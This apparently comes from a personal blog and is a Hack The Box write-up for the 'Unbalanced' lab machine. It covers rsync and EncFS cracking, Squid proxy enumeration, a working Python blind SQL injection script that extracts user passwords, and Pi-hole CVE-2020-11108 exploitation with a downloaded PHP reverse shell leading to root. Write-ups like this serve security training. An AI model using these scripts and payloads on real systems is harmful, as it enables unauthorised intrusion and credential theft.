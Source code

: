 ```yaml
---
image: /assets/avatars/unbalanced.png
title: Unbalanced Writeup
author: Valerio Casalino
style: fill
color: dark
tags: [Writeups, Hackthebox]
description: Writeup for Unbalanced (Hackthebox)
---
```


# Unbalanced

As always, `nmap` it:

```bash
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.200 | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
mkdir nmap && sudo nmap -sC -sV -oN nma/assets/unbalanced -p $ports 10.10.10.200
...
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 a2:76:5c:b0:88:6f:9e:62:e8:83:51:e7:cf:bf:2d:f2 (RSA)
|   256 d0:65:fb:f6:3e:11:b1:d6:e6:f7:5e:c0:15:0c:0a:77 (ECDSA)
|_  256 5e:2b:93:59:1d:49:28:8d:43:2c:c1:f7:e3:37:0f:83 (ED25519)
873/tcp  open  rsync      (protocol version 31)
3128/tcp open  http-proxy Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
```

If we check port `873`, we can see the `rsync` daemon running, checking its content, we can find:

```bash
rsync -av rsync://10.10.10.200
conf_backups    EncFS-encrypted configuration backups
```

So, let's get that stuff in our working directory:

```bash
mkdir rsync-encrypted && rsync -uvrP rsync://10.10.10.200/conf_backups rsync-encrypted
```

This doesn't require authentication, but we have to crack the password of the [EncFS](https://wiki.archlinux.org/index.php/EncFS) file system using John the Ripper and its support scripts:

```bash
encfs2john rsync-encrypted > encfs-john.hash
john --wordlist=/usr/share/wordlists/passwords/rockyou.txt encfs-john.hash 2>/dev/null
```

![image-20201122174007082](/assets/unbalanced/image-20201122174007082.png)

Now we know the encryption password: `bubblegum`, so we can mount that file system using that password:

```bash
mkdir rsync-decrypted
encfs "$PWD/rsync-encrypted" "$PWD/rsync-decrypted"
# Insert password and we're ON
```

Reading `squid.conf` we can find useful information on port `3128`... [Squid](http://www.squid-cache.org/) is used as an HTTP proxy server requiring authentication to be used. This line gives us a new host:

![image-20201122174703962](/assets/unbalanced/image-20201122174703962.png)

Adding that virtual host to our hosts file, visiting that page we get a redirection by `index.php`:

![image-20201122211206917](/assets/unbalanced/image-20201122211206917.png)

Then, this page is in front of us:

![image-20201122211239642](/assets/unbalanced/image-20201122211239642.png)

Now, this other line gives us credentials to interact with `squid` remotely:

![image-20201122211335206](/assets/unbalanced/image-20201122211335206.png)

Now, what we need to do is fuzzing around with `squidclient`:

```bash
# This will show a list of stuff we can see (disabled or protected) with this client
squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:menu
# The important thing is here
squidclient -h 10.10.10.200 -w 'Thah$Sh1' mgr:fqdncache
...
Address                                       Flg TTL Cnt Hostnames
127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
::1                                             H -001   3 localhost ip6-localhost ip6-loopback
172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
127.0.0.1                                       H -001   1 localhost
172.17.0.1                                      H -001   1 intranet.unbalanced.htb
ff02::1                                         H -001   1 ip6-allnodes
ff02::2                                         H -001   1 ip6-allrouters
...
```

Seems like `172.17.0.1` is a load balancer, so let's watch the hosts in which we are never redirected, after a while we get the right one (`172.31.179.1`). It is apparently the same, except for the fact that this is vulnerable to SQL injections:

![image-20201122211948673](/assets/unbalanced/image-20201122211948673.png)

Now we should exploit this SQLi to get some passwords! After some trial and errors, we can see that the best injection comes from querying the password substring to get a list of users with that password. This is done with this parameter in the password field:

```sql
' or substring(Password,{i},1)='{letter}
```

Putting it in a python script for all users:

```python
# Built in
import string
import re
import sys

# External
import requests

# Users retrieved with basic SQLi from http://172.31.179.1/intranet.php
users = [ 'rita', 'jim', 'bryan', 'sarah' ]
# List of credentials to print in the end!
final = []

print("Welcome!! it'll be done in moments", end ="")

for user in users:
    print(f"\n[*] Starting with {user}")
    stop = False
    password = ""
    i = 1
    while not stop:
        stop = True
        for letter in string.printable:
            # Endpoint
            url = "http://172.31.179.1/intranet.php"
            # POST data found with BURP
            data = {
                    "Username": "lolz", 
                    "Password": f"' or substring(Password,{i},1)='{letter}"
                    }
            # Proxy config for response module
            proxy = {"http": "http://10.10.10.200:3128"}
            # Initializing actual request
            res = requests.post(url, data=data, proxies=proxy)
            # If our user is found, then break the loop and look for another
            # letter incrementing the counter
            if re.search(user, res.text):
                # Look for the next letter
                stop = False
                i += 1
                # Update password
                password += letter
                # Rewrite line
                sys.stdout.write('\r')
                sys.stdout.flush()
                # Print line
                print(f"[+] {user}'s password: {password}", end="")
                break

```

 And the results are here!

![image-20201122223842975](/assets/unbalanced/image-20201122223842975.png)

Let's try to `ssh` in, and the only user who can is `bryan`. In `bryan`'s directory, we find the `TODO` file, which gives us info about what the user is working on. 

```
############
# Intranet #
############
* Install new intranet-host3 docker [DONE]
* Rewrite the intranet-host3 code to fix Xpath vulnerability [DONE]
* Test intranet-host3 [DONE]
* Add intranet-host3 to load balancer [DONE]
* Take down intranet-host1 and intranet-host2 from load balancer (set as quiescent, weight zero) [DONE]
* Fix intranet-host2 [DONE]
* Re-add intranet-host2 to load balancer (set default weight) [DONE]
- Fix intranet-host1 [TODO]
- Re-add intranet-host1 to load balancer (set default weight) [TODO]

###########
# Pi-hole #
###########
* Install Pi-hole docker (only listening on 127.0.0.1) [DONE]
* Set temporary admin password [DONE]
* Create Pi-hole configuration script [IN PROGRESS]
- Run Pi-hole configuration script [TODO]
- Expose Pi-hole ports to the network [TODO]
```

We learn that there is PI-Hole running in a Docker container, so let's discover where is the web interface.

![image-20201122233022143](/assets/unbalanced/image-20201122233022143.png)

Now we can go to the Pi-Hole admin page located at `http://172.31.11.3/admin/index.php`:

![image-20201122233125990](/assets/unbalanced/image-20201122233125990.png)

If you make a research using that particular software version you can find [this article](https://frichetten.com/blog/cve-2020-11108-pihole-rce/), which will guide us to RCE and privilege escalation. The credentials for the admin page are `admin:admin` by the way. Follow the instructions on the article to get this result:

![image-20201122234006765](/assets/unbalanced/image-20201122234006765.png)

Then, after `.domains`, paste some malicious PHP, in my case, I used this:

```bash
curl -sL "wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" | xclip -sel c
```

This command should copy the php script in the clipboard, but in case it doesn't work, just visit the url. After that, visit `/admin/scripts/pi-hole/php/lolz.php` to trigger the shell. And here we have `www-data`:

![image-20201122235326489](/assets/unbalanced/image-20201122235326489.png)

Still following the article, now we should overwrite `teleport.php` and restart `pihole` triggering another shell as `root` (as the standard script of PI-Hole) launches the process as `root`:

![image-20201122235933785](/assets/unbalanced/image-20201122235933785.png)

And... now it is strange, because in the configuration script written by `root`, we find a password that can be used to login with (`su root`), but I expected something more.

![image-20201123000132518](/assets/unbalanced/image-20201123000132518.png)

Anyway... profit!
